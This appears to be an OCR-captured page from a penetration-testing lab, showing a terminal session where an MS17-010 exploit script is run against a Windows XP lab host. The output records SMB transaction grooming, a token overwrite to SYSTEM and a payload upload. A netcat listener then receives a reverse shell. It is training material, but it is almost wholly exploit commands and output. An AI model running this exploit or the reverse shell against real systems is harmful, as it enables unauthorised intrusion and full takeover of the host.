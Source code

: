 root@Kali:~/PTP/2.5_Exploitation/Lab 4# python send_and_execute.py 192.168.1.207 ms17-010.exe
Trying to connect to 192.168.1.207:445
Target OS: Windows 5.1
Using named pipe: browser
Groom packets
attempt controlling next transaction on x86
success controlling one transaction
modify parameter count to 0xffffffff to be able to write backward
leak next transaction
CONNECTION: 0x89ee6a88
SESSION: 0xe24add20
FLINK: 0x7bd48
InData: 0x7ae28
MID: 0xa
TRANS1: 0x78b50
TRANS2: 0x7ac90
modify transaction struct for arbitrary read/write
make this SMB session to be SYSTEM
current TOKEN addr: 0xe1efcf10
userAndGroupCount: 0x3
userAndGroupsAddr: 0xe1efcfb0
overwriting token UserAndGroups
Sending file EF6I56.exe...
Opening SVCManager on 192.168.1.207.....
Creating service XQBG.....
Starting service XQBG.....
The NETBIOS connection with the remote host timed out.
Removing service XQBG.....
ServiceExec Error on: 192.168.1.207
nca_s_proto_error
Done
If successful we get a shell at our listener:

root@Kali:~/PTP/2.5_Exploitation/Lab 4# nc -nlvp 443
listening on [any] 443 ...
connect to [192.168.1.73] from (UNKNOWN) [192.168.1.207] 1129
Microsoft Windows XP [Version 5.1.2600]
(C) Copyright 1985-2001 Microsoft Corp.

C:\WINDOWS\system32>ipconfig
ipconfig

Windows IP Configuration


Ethernet adapter Local Area Connection:

        Connection-specific DNS Suffix  . : 
        IP Address. . . . . . . . . . . . : 192.168.1.207
        Subnet Mask . . . . . . . . . . . : 255.255.255.0
        Default Gateway . . . . . . . . . : 192.168.1.1

Ethernet adapter Local Area Connection 2:

        Media State . . . . . . . . . . . : Media disconnected

